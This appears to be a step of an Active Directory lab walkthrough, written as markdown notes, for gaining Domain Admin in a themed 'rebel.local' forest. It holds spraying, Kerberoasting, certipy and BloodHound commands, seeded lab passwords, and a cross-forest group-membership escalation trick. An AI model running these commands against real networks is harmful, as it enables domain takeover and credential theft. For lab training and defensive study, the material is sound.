

# 🚀 09 — rebel.local (separate forest) → Domain Admin

> [!abstract] Summary
> **Start:** network route to `yavin4` (10.10.20.10).
> **Goal:** DA in `rebel.local`.
> **Why it works:** cross-forest trust to empire is **likely missing** (see lab note), so rebel is an isolated forest reachable over the routed network. Attack it standalone — same playbook, its own DC.

> [!warning] Verify the trust first
> ```cypher
> MATCH p=(:Domain {name:'EMPIRE.LOCAL'})-[:TrustedBy]->(:Domain {name:'REBEL.LOCAL'}) RETURN p
> ```
> If a trust **does** exist, you may forge an inter-realm TGT from empire — but cross-*forest* SID filtering normally strips the `-519` trick, so standalone compromise is the reliable path.



## Step 1 — Reach and spray

```bash
nxc smb 10.10.20.10
# uniform lab Administrator works as the LOCAL admin in this forest
nxc smb 10.10.20.10 -u Administrator -p 'SithLord123!' -d rebel.local
```

## Step 2 — Seeded rebel creds

| Principal | SPN / note | Password |
|---|---|---|
| `rebel_svc` | `HTTP/rebel.local` (Kerberoast) | `RebelSvc2025!` |
| `han.solo` | user | `Rebel1234!` |
| `padme.amidala` | user | `Rebel1234!` |

```bash
impacket-GetUserSPNs -request -dc-ip 10.10.20.10 rebel.local/han.solo:'Rebel1234!'
hashcat -m 13100 ...
```

## Step 3 — Escalate (repeat the empire playbook against yavin4)

```bash
certipy find -u han.solo@rebel.local -p 'Rebel1234!' -dc-ip 10.10.20.10 -vulnerable -stdout
# + BloodHound shortest path to -512, coerce/relay, etc.
```

## Step 4 — The cross-forest bridge (LAT-034)

> [!tip] Hidden link back to empire
> The lab adds **rebel.local `Administrator` as a Foreign Security Principal in empire.local `Corporate Admins`**. So owning rebel's Administrator may hand you privileged group membership *inside empire* — and vice-versa. Check both directions:
> ```cypher
> MATCH (n)-[:MemberOf]->(g) WHERE g.name STARTS WITH 'CORPORATE ADMINS' RETURN n,g
> ```

> [!check] Outcome
> DA in rebel.local + possible bridge into empire. **Next:** [[10-trade-forest]].
